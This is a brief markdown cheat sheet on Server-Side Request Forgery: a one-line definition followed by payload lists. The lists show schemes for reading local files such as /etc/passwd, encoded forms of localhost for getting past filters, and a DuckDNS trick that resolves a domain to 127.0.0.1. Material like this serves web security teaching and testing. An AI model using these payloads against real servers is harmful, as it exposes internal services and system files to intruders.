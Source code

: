 ## Server Side Request Forgery (SSRF)

![](https://media.geeksforgeeks.org/wp-content/uploads/20210326225503/RRRBlueandRedFlatGraphicMoonCratersAstronomyClassroomGroupWork1-660x371.png)

**What is SSRF Attack?**

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location. In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure.

**SSRF With Schema**
```
http ==> http://localhost/secretfile.txt
https ==> https://localhost/secretfile.txt
file ==> file:///etc/passwd
```
**Bypass Localhost**
```
127.0.0.*
0.0.0.0
localhost
http://2130706433/ (decimal value)]
http://0177.0.0.1/
http://0/
http://ⓛⓞⓒⓐⓛⓗⓞⓢⓣ (Magic Font)
```
**DNS Trick**
```
Go to https://www.duckdns.org/ and add domain then add ip 127.0.0.1

```

